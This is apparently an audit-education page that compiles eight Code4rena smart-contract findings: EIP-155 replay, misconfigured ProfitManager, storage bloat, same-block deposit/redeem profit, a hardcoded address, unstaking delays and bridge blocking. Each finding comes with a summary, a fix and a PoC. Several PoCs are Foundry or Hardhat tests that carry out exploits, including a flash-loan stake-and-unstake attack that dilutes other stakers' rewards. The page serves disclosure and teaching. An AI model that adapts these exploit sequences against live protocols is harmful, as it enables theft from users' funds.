 # ETAAcademy-Adudit: 1. Dos

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DOS</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>dos</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] EIP-155 is not enforced, allowing attackers/malicious operators to profit from replaying transactions

### Absence of enforcement of EIP-155

- Summary: Attackers and malicious operators profit from replaying transactions due to the absence of enforcement of **`EIP-155`**, which prevents replay attacks by including the chain ID in the transaction's signature.

- Impact & Recommendation: Attackers can replay transactions from networks not protected by EIP-155, while operators can replay early user transactions from other EVM networks to collect gas fees or profit directly.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-05-eip-155-is-not-enforced-allowing-attackersmalicious-operators-to-profit-from-replaying-transactions) & [Report](https://github.com/code-423n4/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

                  let should_check_chain_id = if matches!(
                    common_data.transaction_type,
                    TransactionType::LegacyTransaction
                ) && common_data.extract_chain_id().is_some()
                {
                    U256([1, 0, 0, 0])
                } else {
                    U256::zero()
                };
    pub fn extract_chain_id(&self) -> Option<u64> {
        let bytes = self.input_data()?;
        let chain_id = match bytes.first() {
            Some(x) if *x >= 0x80 => {
                let rlp = Rlp::new(bytes);
                let v = rlp.val_at(6).ok()?;
                PackedEthSignature::unpack_v(v).ok()?.1?
            }

  ```

  </details>

## 2. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### ProfitManagers in different markets

- Summary: In GuildToken.sol, setting profitManager in the constructor causes problems as different markets have different ProfitManagers. Calling `notifyPnL()` with negative values from other term types triggers `notifyGaugeLoss()`, leading to reverts because the caller differs from the constructor-set ProfitManager.

- Impact & Recommendation: In GuildToken.sol, ProfitManager should be dynamically called to accommodate different ProfitManagers for each market.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testNotifyPnLCannotBeCalledWithNegative() public {
        // Show that for the initial gUSDC term there is no problem.
        credit.mint(address(profitManager), 10);
        profitManager.notifyPnL(term, -1);
        creditWETH.mint(address(profitManagerWETH), 10);
        vm.expectRevert("UNAUTHORIZED");
        profitManagerWETH.notifyPnL(termWETH, -1);
    }

  ```

  </details>

## 3. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### Staking and unstaking in the same block

- Summary: A borrower initiates a loan with the minimum amount in a term without mandatory partial repayment and transfers the funds to `EXPLOITER` after interest accrual. `EXPLOITER` then utilizes a flash loan to stake the amount into the same term via SurplusGuildMinter, repays the original loan, triggering `notifyPnL()`, which reduces rewards for other Guild holders by updating the `_gaugeProfitIndex`. Finally, `EXPLOITER` unstakes and returns the flash loan.

- Impact & Recommendation: To prevent attackers from instantly accumulating rewards without being long-term stakeholders like others in the system, several protective measures can be implemented. These include disallowing staking and unstaking in the same block, introducing staking/unstaking fees, or implementing a "warm-up period" during which stakers are unable to accumulate interest.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test, console} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";
    contract DeflateGuildHoldersRewardsUnitTest is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address private ALICE = makeAddr("alice");
        address private EXPLOITER = makeAddr("exploiter");
        address private STAKER1 = makeAddr("staker1");
        address private STAKER2 = makeAddr("staker2");
        address private STAKER3 = makeAddr("staker3");
        address private termUSDC;
        Core private core;
        ProfitManager private profitManagerUSDC;
        CreditToken gUSDC;
        GuildToken guild;
        RateLimitedMinter rlgm;
        SurplusGuildMinter sgmUSDC;
        // GuildMinter params
        uint256 constant MINT_RATIO = 2e18;
        uint256 constant REWARD_RATIO = 5e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManagerUSDC = new ProfitManager(address(core));
            gUSDC = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManagerUSDC));
            rlgm = new RateLimitedMinter(
                address(core), /*_core*/
                address(guild), /*_token*/
                CoreRoles.RATE_LIMITED_GUILD_MINTER, /*_role*/
                type(uint256).max, /*_maxRateLimitPerSecond*/
                type(uint128).max, /*_rateLimitPerSecond*/
                type(uint128).max /*_bufferCap*/
            );
            sgmUSDC = new SurplusGuildMinter(
                address(core),
                address(profitManagerUSDC),
                address(gUSDC),
                address(guild),
                address(rlgm),
                MINT_RATIO,
                REWARD_RATIO
            );
            profitManagerUSDC.initializeReferences(address(gUSDC), address(guild), address(0));
            termUSDC = address(new MockLendingTerm(address(core)));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_REMOVE, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(rlgm));
            core.grantRole(CoreRoles.RATE_LIMITED_GUILD_MINTER, address(sgmUSDC));
            core.grantRole(CoreRoles.GUILD_SURPLUS_BUFFER_WITHDRAW, address(sgmUSDC));
            core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            guild.setMaxGauges(10);
            guild.addGauge(1, termUSDC);
            // labels
            vm.label(address(core), "core");
            vm.label(address(profitManagerUSDC), "profitManagerUSDC");
            vm.label(address(gUSDC), "gUSDC");
            vm.label(address(guild), "guild");
            vm.label(address(rlgm), "rlcgm");
            vm.label(address(sgmUSDC), "sgmUSDC");
            vm.label(termUSDC, "termUSDC");
        }
        function testGuildHoldersRewardsWithoutEXPLOITER() public {
            // 3 users borrow gUSDC and stake them into the gUSDC term
            // In reality there may be more users, but for testing purposes, three are sufficient.
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            gUSDC.mint(address(profitManagerUSDC), interest);
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("------------------------------BEFORE ATTACK------------------------------");
            console.log("Staker1 credit reward:                                  ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                  ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                 ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                  ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                  ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                  ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        function testGuildHoldersRewardsAfterEXPLOITER() public {
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            // NOTE: Alice needs to transfer the borrowed 100e18 gUSDC to EXPLOITER for repayment.

            console.log("-------------------------------AFTER ATTACK-------------------------------");
            console.log("EXPLOITER Credit Balance before flashloan:                              ", gUSDC.balanceOf(EXPLOITER));
            // EXPLOITER gets a flashloan.
            gUSDC.mint(EXPLOITER, 10_000_000e18);
            console.log("EXPLOITER Credit Balance after flashloan:      ", gUSDC.balanceOf(EXPLOITER));
            vm.startPrank(EXPLOITER);
            gUSDC.approve(address(sgmUSDC), 10_000_000e18);
            sgmUSDC.stake(termUSDC, 10_000_000e18);
            console.log("EXPLOITER Credit balance after stake:                                   ", gUSDC.balanceOf(EXPLOITER));
            vm.stopPrank();
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));

            sgmUSDC.getRewards(EXPLOITER, termUSDC);
            console.log("EXPLOITER (instant) Credit reward:                     ", gUSDC.balanceOf(address(EXPLOITER)));
            console.log("EXPLOITER (instant) Guild reward:                     ", guild.balanceOf(address(EXPLOITER)));
            //EXPLOITER's profit is based on the guild split since he own almost all of the GUILD totalSupply.
            vm.startPrank(EXPLOITER);
            sgmUSDC.unstake(termUSDC, 10_000_000e18);
            vm.stopPrank();
            console.log("EXPLOITER credit balance after unstake:        ", gUSDC.balanceOf(EXPLOITER));
            // NOTE: EXPLOITER repays the flash loan here.
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("Staker1 credit reward:                                      ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                      ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                     ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                      ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                     ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                      ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        // Function that will compute Alice's interest with which notifyPnL will be called so that the attack is as accurate as possible
        function _computeAliceLoanInterest(uint borrowTime, uint borrowAmount) private view returns (uint interest) {
            uint256 _INTEREST_RATE = 0.10e18; // 10% APR --- from LendingTerm tests
            uint256 YEAR = 31557600;
            interest = (borrowAmount * _INTEREST_RATE * (block.timestamp - borrowTime)) / YEAR / 1e18;
        }
    }

  ```

  </details>

## 4. [Medium] An attacker can bloat the Pink runtime storage with zero costs

### Bloat attack by dust accounts

- Summary: The Pink runtime's low Existential Deposit (ED) enables attackers to bloat storage with minimal cost by creating many low-balance accounts. This increases storage costs and fees for all users, posing a significant problem.

- Impact & Recommendation: Consider using a reasonable Existential Deposit. I recommend at least one CENTS (i.e. 1_000_000_000). When an account falls below the ED, it's removed from storage, resetting the nonce.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-phala-network#m-02-an-attacker-can-bloat-the-pink-runtime-storage-with-zero-costs) & [Report](https://code4rena.com/reports/2024-03-phala-network)

  <details><summary>POC</summary>

  ```rust
    -    pub const ExistentialDeposit: Balance = 1;
    +    pub const ExistentialDeposit: Balance = 1 * CENTS;

  ```

  </details>

## 5. [High] Users can get immediate profit when deposit and redeem in PerpetualAtlanticVaultLP

### Calculates shares before updating the total collateral

- Summary: When a user deposits assets, the function calculates shares before updating the total collateral. This creates an opportunity for users to exploit the difference in calculations and gain immediate profits by depositing and redeeming in the same block, potentially leading to sandwich and MEV attacks.

- Impact & Recommendation: Move  `perpetualAtlanticVault.updateFunding`  before  `previewDeposit`  is calculated.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-05-users-can-get-immediate-profit-when-deposit-and-redeem-in-perpetualatlanticvaultlp) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testSandwichProvideFunding() public {
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        skip(86400 * 7);
        vault.addToContractWhitelist(address(rdpxV2Core));
        vault.updateFundingPaymentPointer();
        // test funding successfully
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 15e6;
        // calculate funding is done properly
        vault.calculateFunding(strikes);
        uint256 funding = vault.totalFundingForEpoch(
            vault.latestFundingPaymentPointer()
        );
        // send funding to rdpxV2Core and call sync
        weth.transfer(address(rdpxV2Core), funding);
        rdpxV2Core.sync();
        rdpxV2Core.provideFunding();
        skip(86400 * 6);
        uint256 balanceBefore = weth.balanceOf(address(this));
        console.log("balance of eth before deposit and redeem:");
        console.log(balanceBefore);
        weth.approve(address(vaultLp), type(uint256).max);
        uint256 shares = vaultLp.deposit(1e18, address(this));
        vaultLp.redeem(shares, address(this), address(this));
        uint256 balanceAfter = weth.balanceOf(address(this));
        console.log("balance after deposit and redeem:");
        console.log(balanceAfter);
        console.log("immediate profit :");
        console.log(balanceAfter - balanceBefore);
    }

  ```

  </details>

## 6. [Medium] asdRouter.sol is at risk of DOS due to vulnerable implementation of NOTE address

### Hardcoding address

- Summary: The documentation advises using `CToken.underlying()` to ensure the correct NOTE token address. However, the current implementation in `asdRouter.sol` sets the noteAddress only at contract deployment, effectively hardcoding it. This poses a vulnerability as the `noteAddress` is used directly for swaps from asdUSDC to NOTE, instead of dynamically retrieving it via CToken.underlying(). Therefore, if the NOTE address changes, the `swap` and `lzcompose` functionalities will be vulnerable to denial-of-service attacks.

- Impact & Recommendation: use `CNote.underlying()` instead of hardcoding.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-canto#m-01-asdroutersol-is-at-risk-of-dos-due-to-vulnerable-implementation-of-note-address) & [Report](https://code4rena.com/reports/2024-03-canto)

  <details><summary>POC</summary>

  ```solidity
  //contracts/asd/asdRouter.sol
        constructor(address _noteAddress, uint32 _cantoLzEID, address _crocSwapAddress, address _crocImpactAddress, address _asdUSDCAddress) {
            //@audit No method to change noteAddress after deployment.
    |>      noteAddress = _noteAddress;
            cantoLzEID = _cantoLzEID;
            crocSwapAddress = _crocSwapAddress;
            crocImpactAddress = _crocImpactAddress;
            asdUSDC = _asdUSDCAddress;
        }

        //contracts/asd/asdRouter.sol
        function _swapOFTForNote(address _oftAddress, uint _amount, uint _minAmountNote) internal returns (uint, bool) {
    ...
            if (_oftAddress < noteAddress) {
                baseToken = _oftAddress;
    |>          quoteToken = noteAddress;
            } else {
    |>          baseToken = noteAddress;
                quoteToken = _oftAddress;
            }
    ...

  ```

  </details>

## 7. [Medium] The time available for a canceled withdrawal should not impact future unstaking processes

### Canceled withdrawal affects future unstaking processes

- Summary: When stakers attempt to unstake their StRSR, they cannot withdraw RSR immediately; instead, their withdrawal enters a queue and becomes available after an unstaking delay period. If a withdrawal is canceled, the RSR is restaked, but the canceled withdrawal still impacts future requests. For example, if a user cancels a withdrawal during a long unstaking delay, subsequent withdrawal requests might still be affected by the canceled request, making them available later than expected.

- Impact & Recommendation: This situation could lead to funds being locked for longer than intended and create a denial-of-service (DoS) issue for users. The logic for determining the availability of withdrawals should not consider canceled withdrawals. Specifically, the code should ensure that if a user cancels a withdrawal, it does not impact the availableAt time for new withdrawals.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-07-reserve#m-06-The-time-available-for-a-canceled-withdrawal-should-not-impact-future-unstaking-processes) & [Report](https://code4rena.com/reports/2024-07-reserve)

  <details><summary>POC</summary>

  ```solidity

      describe('PushDraft Test', () => {
      it('Should use current unstakingDelay', async () => {
        // old unstakingDelay is 1 day
        const oldUnstakingDelay = 3600 * 24
        await stRSR.connect(owner).setUnstakingDelay(oldUnstakingDelay)
        const amount: BigNumber = bn('100e18')
        await rsr.connect(addr1).approve(stRSR.address, amount)
        await stRSR.connect(addr1).stake(amount)

        const draftEra = 1
        const availableAtOfFirst = await getLatestBlockTimestamp() + oldUnstakingDelay + 1
        /**
         * Unstaking request enter a queue, and withdrawal become available 1 day later
         */
        await expect(stRSR.connect(addr1).unstake(amount))
          .emit(stRSR, 'UnstakingStarted')
          .withArgs(0, draftEra, addr1.address, amount, amount, availableAtOfFirst)

        /**
         * Cancel the unstaking to eliminate any pending withdrawals
         */
        await stRSR.connect(addr1).cancelUnstake(1)

        // new unstakingDelay is 1 hour
        const newUnstakingDelay = 3600
        await stRSR.connect(owner).setUnstakingDelay(newUnstakingDelay)

        await rsr.connect(addr2).approve(stRSR.address, amount)
        await stRSR.connect(addr2).stake(amount)

        const availableAtOfFirstOfUser2 = await getLatestBlockTimestamp() + newUnstakingDelay + 1
        /**
         * Unstaking request enter a queue, and withdrawal become available 1 hour later for a second user
         */
        await expect(stRSR.connect(addr2).unstake(amount))
          .emit(stRSR, 'UnstakingStarted')
          .withArgs(0, draftEra, addr2.address, amount, amount, availableAtOfFirstOfUser2)

        /**
         * Although the first unstaking was canceled, its available time still impacts subsequent unstaking requests
         */
        await expect(stRSR.connect(addr1).unstake(amount))
          .emit(stRSR, 'UnstakingStarted')
          .withArgs(1, draftEra, addr1.address, amount, amount, availableAtOfFirst)
      })
    })

  ```

  </details>

## 8. [High] Can block bridge or limit the bridgeable amount by initializing the ITSHub balance of the original chain

### Stop token bridging

- Summary: Attackers can block token bridging or limit the amount that can be bridged by manipulating the ITSHub balance on the original chain. The ITSHub tracks the token balances only on destination chains, not the original chain. This is because minting permissions are often registered on the original chain, making balance tracking complicated. However, attackers can initialize the original chain's balance to 0, which triggers an underflow error during token transfer, preventing tokens from being bridged out. In the InterchainTokenFactory,deployRemoteInterchainToken function, there is no check to prevent a token from being deployed back to the original chain, allowing attackers to deploy tokens from a remote chain to the original chain, causing the original chain's ITSHub balance to be initialized as zero. The ability to initialize the original chain’s balance to zero can stop token bridging or limit the amount that can be bridged. The issue is especially critical for canonical tokens, as attackers can prevent these tokens from being bridged out of the original chain, effectively locking the token in the original chain.

- Impact & Recommendation: While this issue does not involve stealing funds, it results in a DoS scenario, especially impacting canonical tokens. To prevent remote deployment requests to the original chain, `InterchainTokenFactory.deployRemoteInterchainToken` and `InterchainTokenFactory.deployRemoteCanonicalInterchainToken` should include checks to ensure that the destination chain is not the same as the original chain. When deploying directly through `InterchainTokenService.deployInterchainToken`, it's not possible to perform this check, so the original chain’s information should be stored for each tokenId in ITSHub. This will ensure that the balance of the original chain is not initialized, preventing issues related to balance manipulation and denial of service.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-axelar-network#h-02-can-block-bridge-or-limit-the-bridgeable-amount-by-initializing-the-itshub-balance-of-the-original-chain) & [Report](https://code4rena.com/reports/2024-08-axelar-network)

<details><summary>POC</summary>

```rust

  fn apply_balance_tracking(
    storage: &mut dyn Storage,
    source_chain: ChainName,
    destination_chain: ChainName,
    message: &ItsMessage,
  ) -> Result<(), Error> {

    match message {
        ItsMessage::InterchainTransfer {
            token_id, amount, ..
        } => {

                // Update the balance on the source chain
                update_token_balance(
                                storage,
                                token_id.clone(),
                                source_chain.clone(),
                                *amount,
                                false,
                            )
                .change_context_lazy(|| Error::BalanceUpdateFailed(source_chain, token_id.clone()))?;
                            // Update the balance on the destination chain

                update_token_balance(
                                storage,
                                token_id.clone(),
                                destination_chain.clone(),
                                *amount,
                                true,
                            )
                .change_context_lazy(|| {
                                Error::BalanceUpdateFailed(destination_chain, token_id.clone())
                            })?
            }

            // Start balance tracking for the token on the destination chain when a token deployment is seen
            // No invariants can be assumed on the source since the token might pre-exist on the source chain
            ItsMessage::DeployInterchainToken { token_id, .. } => {

                start_token_balance(storage, token_id.clone(), destination_chain.clone(), true)
                                .change_context(Error::InvalidStoreAccess)?
            }
            ...

        };

    Ok(())

}

```

</details>
